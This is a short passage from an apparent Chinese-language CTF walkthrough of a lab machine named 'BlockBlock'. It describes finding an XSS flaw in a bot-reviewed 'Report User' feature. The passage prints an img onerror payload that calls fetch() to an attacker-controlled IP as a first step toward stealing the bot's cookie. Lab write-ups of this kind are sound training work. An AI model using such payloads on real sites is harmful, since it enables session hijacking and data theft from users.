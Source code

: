 请求 net_version 时就开始要求 token 认证了，继续查看 80 端口页面

![image-20241125100206564.png](assets/0635-BlockBlock/image-20241125100206564.png)

注册账号登陆后看到一个 BOT，发现在 Report User 功能点处存在 XSS 漏洞，还是机器人的请求

![image-20241125100801475.png](assets/0635-BlockBlock/image-20241125100801475.png)

Payload

```JavaScript
<img src=x onerror=fetch("http://10.10.16.5/xss")>
```

![image-20241126094717680.png](assets/0635-BlockBlock/image-20241126094717680.png)

这里直接读取 Cookie 会失败，HTTP 服务器这边没有看到请求。
